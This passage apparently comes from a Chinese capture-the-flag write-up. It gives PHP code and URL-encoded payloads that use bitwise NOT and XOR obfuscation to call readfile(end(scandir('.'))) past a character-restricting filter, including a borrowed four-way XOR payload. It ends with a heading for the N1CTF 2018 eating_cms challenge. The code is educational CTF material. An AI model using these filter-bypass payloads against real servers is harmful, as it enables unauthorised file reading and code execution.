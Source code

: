 
![在这里插入图片描述](https://img-blog.csdnimg.cn/2832a16e44c341958df3a842f86f9063.png)
使用`reaadfile(end(scandir(.)))`
```php

<?php
$c = "readfile";
$d = "scandir";
$e = ".";

echo urlencode(~$c)."\n".urlencode(~$d)."\n".urlencode(~$e);

# %8D%9A%9E%9B%99%96%93%9A
# %8C%9C%9E%91%9B%96%8D
# %D1
?>
```

```php

$b = "readfile(end(scandir(.)))";

$payload = "((%8D%9A%9E%9B%99%96%93%9A)^(%FF%FF%FF%FF%FF%FF%FF%FF))(((%9A%91%9B)^(%FF%FF%FF))(((%8C%9C%9E%91%9B%96%8D)^(%FF%FF%FF%FF%FF%FF%FF))(%D1^%FF)));";

var_dump(count_chars(urldecode($payload),3));

```
![在这里插入图片描述](https://img-blog.csdnimg.cn/a6369033f7b44a3b88afe37a7088b511.png)

又超3个字符
直接拉大佬的payload了
```php
<?php
echo(urldecode('%8D%8D%8D%8D%8D%8D%9E%8D')^urldecode('%9A%8D%8D%8D%8D%8D%9B%8D')^urldecode('%9A%9A%9E%9B%99%96%96%9A')^urldecode('%FF%FF%FF%FF%FF%FF%FF%FF'));
echo nl2br("\n");
echo(urldecode('%8D%9E%8D')^urldecode('%8D%99%8D')^urldecode('%9A%96%9B')^urldecode('%FF%FF%FF'));
echo nl2br("\n");
echo(urldecode('%8D%9E%8D%9E%8D%8D%8D')^urldecode('%9A%9B%8D%99%8D%8D%9A')^urldecode('%9B%99%9E%96%9B%96%9A')^urldecode('%FF%FF%FF%FF%FF%FF%FF'));
echo nl2br("\n");
echo(urldecode('%D1')^urldecode('%FF'));
?>

```
![在这里插入图片描述](https://img-blog.csdnimg.cn/eb7b1a101b484e77a846c890e3abd86d.png)
唉

# [N1CTF 2018]eating_cms
register.php注册
